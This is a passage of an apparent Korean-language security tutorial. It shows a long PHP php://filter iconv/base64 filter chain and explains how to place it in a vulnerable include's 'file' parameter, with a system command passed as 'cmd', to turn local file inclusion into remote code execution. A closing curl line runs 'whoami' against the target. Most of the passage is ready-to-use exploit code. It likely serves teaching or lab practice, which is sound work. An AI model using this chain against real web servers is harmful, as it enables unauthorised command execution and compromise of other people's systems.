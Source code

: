 ```php
<?php echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp'); ?>
```

생성한 필터 체인을 이용하여 RCE를 수행해보자.
`include` 함수 안에 들어갈 `file` 파라미터값에 생성한 필터 체인을 삽입하고, `cmd` 인수에 실행하고 싶은 시스템 명령을 삽입하여 LFI를 이용한 RCE 공격을 수행한다.
```shell
attacker$ curl "$URL?cmd=whoami&file=$FILTERCHAIN"
```
